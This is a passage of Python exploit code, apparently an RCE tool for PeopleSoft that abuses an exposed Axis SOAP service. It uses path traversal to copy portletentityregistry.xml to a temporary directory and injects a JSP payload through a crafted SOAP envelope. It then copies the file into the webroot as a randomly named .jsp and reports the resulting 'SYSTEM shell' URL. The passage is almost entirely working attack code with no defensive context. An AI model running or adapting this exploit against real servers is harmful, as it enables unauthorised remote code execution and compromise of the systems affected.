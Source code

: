 ```
                &lt;item xsi:type="xsd:string"&gt;%s&lt;/item&gt;
                &lt;item xsi:type="xsd:string"&gt;%s&lt;/item&gt;
                &lt;item xsi:type="xsd:string"&gt;%s.war&lt;/item&gt;
                &lt;item xsi:type="xsd:string"&gt;something&lt;/item&gt;
                &lt;item xsi:type="xsd:string"&gt;-addToEntityReg&lt;/item&gt;
                &lt;item xsi:type="xsd:string"&gt;&lt;![CDATA[%s]]&gt;&lt;/item&gt;
            &lt;/api:in0&gt;
        &lt;/api:main&gt;
        &lt;/soapenv:Body&gt;
        &lt;/soapenv:Envelope&gt;
        """.strip() % (tmp_path, tmp_dir, tmp_dir, PAYLOAD)
        response = self.service_send(data)
    def build_shell(self):
        """Builds a SYSTEM shell.
        """
        # On versions &gt;= 8.50, using another extension than JSP got 70 bytes
        # in return every time, for some reason.
        # Using .jsp seems to trigger caching, thus the same pivot cannot be
        # used to extract several files.
        # Again, this is just from experience, nothing confirmed
        pivot = '/%s.jsp' % self.random_string(20)
        pivot_path = self.war_path('PSOL') + pivot
        pivot_url = '/PSOL' + pivot
        # 1: Copy portletentityregistry.xml to TMP
        per = '/WEB-INF/data/portletentityregistry.xml'
        per_path = self.war_path('pspc')
        tmp_path = '../' * 20 + 'TEMP'
        tmp_dir = self.random_string(20)
        tmp_per = tmp_path + '/' + tmp_dir + per
        if not self.service_copy(per_path + per, tmp_per):
            raise RuntimeError('Unable to copy original XML file')
        # 2: Add JSP payload
        self.service_main(tmp_path, tmp_dir)
        # 3: Copy XML to JSP in webroot
        if not self.service_copy(tmp_per, pivot_path):
            raise RuntimeError('Unable to copy modified XML file')
        response = self.get(pivot_url)
        if response.status_code != 200:
            raise RuntimeError('Unable to access JSP shell')
        o('+', 'Shell URL: ' + self.url + pivot_url)
class PeopleSoftRCE(AxisDeploy):
    def __init__(self, url):
        super().__init__(url)
def o(s, message):
    if colorama:
        c = COLORS[s]
        s = colorama.Style.BRIGHT + COLORS[s] + '|' + colorama.Style.RESET_ALL
    print('%s %s' % (s, message))
x = PeopleSoftRCE(URL)
try:
    x.check_all()
    x.service_deploy()
    x.build_shell()
except RuntimeError as e:
    o('-', e)
finally:
    x.service_undeploy()
```
